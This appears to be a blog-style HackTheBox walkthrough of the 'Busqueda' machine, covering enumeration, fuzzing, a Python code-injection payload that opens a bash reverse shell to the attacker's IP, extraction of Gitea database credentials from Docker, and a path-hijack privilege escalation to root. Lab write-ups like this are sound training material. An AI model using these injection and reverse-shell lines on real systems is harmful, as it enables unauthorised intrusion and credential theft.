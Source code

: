 ```yaml
---
layout: post
title: "Busqueda"
date: 2025-07-26 15:34:00 +0800
categories: [HackTheBox, Easy]
tags: [Linux, Git, Gitea, Docker]
author: klein
image: [object Object]
---
```


This note-style walk through will be conducted with no Guided mode, as that is currently not available for this box.

Let's start off with enumeration. 
```bash
nmap -sCV -oN busqueda 10.129.228.217
```
```bash
tarting Nmap 7.95 ( https://nmap.org ) at 2025-07-22 15:17 EDT
Nmap scan report for 10.129.228.217
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.01 seconds

```

As the Nmap scan shows, the website on port 80 is redirecting to http://searcher.htb. Let's add this to the hosts file.

```bash
vi /etc/hosts
```

Now let's take a look at what is on port 80. 

*Another good idea would be after adding the domain name to the hosts file, to rerun Nmap, because of DNS there are additional scripts that Nmap runs in that case. For example discovering additional directories, like .git.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722153255.png)

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722153626.png)

There is also a software version at the bottom of the web application. This could lead to compromise, however there is an alternative path by doing fuzzing.

Let's create a web request with the application and catch it in Burp proxy. Copy the request to a file and use it for fuzzing.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722154033.png)

Copy this to a file. I saved it as web.req.

```bash
ffuf -request web.req -request-proto http -w /usr/share/seclists/Fuzzing/special-chars.txt
```

*Use -request-proto http, because the web application only accepts HTTP

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722154943.png)

We find that in some cases it returns zero when the character is appended to the end of the username. 

Here =>

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722155035.png)

By playing around with the request we find an injection point for code execution:
![image](/images/2025-07-26-Busqueda/Pasted-image-20250722155418.png)

There we go, this looks promising:

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722155649.png)

Let's create a reverse shell.

```bash
echo -n "bash -c 'bash -i  >& /dev/tcp/10.10.14.195/4444  0>&1'  "|base64
```

```bash
nc -nvlp 4444
```

As this is a totally doable way of landing on the box, I had to use a more simple approach.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722164224.png)

```bash
'+%2b+__import__('os').popen('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.43/9000+0>%261"').read()+%2b+' 
```

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722164239.png)

And with that, I got the user flag.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722164536.png)

By looking around we found a Gitea instance.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722164911.png)

In the .git directory I also found credentials, these are going to help in with the login on the newly found web instance.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726042905.png)

Taking a look at the website there is nothing that could be used to progress further with this user.
![image](/images/2025-07-26-Busqueda/Pasted-image-20250726043207.png)

However, by using the newly found password and running the sudo -l command we find a Python script that can be run with sudo privleges.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726043313.png)

By playing around with the script I was able to extract credentials from a running docker instance.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726043901.png)

Making the output more pretty, we can have a better look at the newly found credentials.

```bash
echo -n '{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}' | jq .
```

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726044213.png)

Alright, these credentials are going to be for the administrator user on the Gitea application. The account is going to list the script that we used to get the credentials from the docker instance. By looking at the source code we find a vulnerability in the code. This vulnerability executes a bash script that is not calling the full path, meaning we can use this to our advantage.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726044827.png)

In a directory that I can write to I created this file with a to get a reverse shell.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726045108.png)

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726045259.png)

And we get a shell as root:
![image](/images/2025-07-26-Busqueda/Pasted-image-20250726045318.png)

